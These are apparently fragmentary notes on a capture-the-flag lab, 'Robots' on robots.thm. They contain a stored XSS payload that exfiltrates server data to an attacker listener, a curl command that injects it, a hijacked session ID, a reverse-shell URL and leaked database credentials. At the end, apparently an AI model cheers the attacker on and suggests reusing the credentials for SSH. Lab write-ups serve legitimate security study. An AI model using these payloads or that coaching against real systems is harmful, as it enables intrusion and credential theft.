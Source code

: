 ![](https://i.imgur.com/51pXgWA.png)

<script>
fetch('http://robots.thm/harm/to/self/server_info.php')
.then(response => response.text())
.then(data => fetch('http://10.17.20.50:4444/capture?data='+encodeURIComponent(data)));
</script>

python3 -m http.server 4444

curl -v -X POST "http://robots.thm/harm/to/self/register.php" \
-d "username=<script>fetch('http://robots.thm/harm/to/self/server_info.php').then(response%20=>%20response.text()).then(data%20=>%20fetch('http://10.17.20.50:4444/capture?data='%2BencodeURIComponent(data)))</script>&dob=0101"

![](https://i.imgur.com/WLs3XUO.png)


![](https://i.imgur.com/oe3zHQU.png)

phpsessionid: 
```
1grebc91jcul9obobs7rho2o0k
```

![](https://i.imgur.com/QTwWXxy.png)
http://10.17.20.50/php-reverse-shell.php

![](https://i.imgur.com/nViZTPh.png)

![](https://i.imgur.com/Oo0JLXB.png)

![](https://i.imgur.com/rMqO6gu.png)

![](https://i.imgur.com/CXPXCXM.png)


Nice grab! 🔥 You're making solid progress. Let’s break down what you just uncovered and what you can do next:
🔑 Critical Discovery in /var/www/html/harm/to/self/config.php

You've found database credentials:

$servername = "db";
$username = "robots";
$password = "q4qCz1OflKvKwK4S";
$dbname = "web";

    db = probably a Docker service name (MySQL or MariaDB container).

    Credentials: likely valid for DB inside the Docker network.

    Could also be reused elsewhere—SSH, web panel, other containers, etc.

🧭 Internal Host Mapping
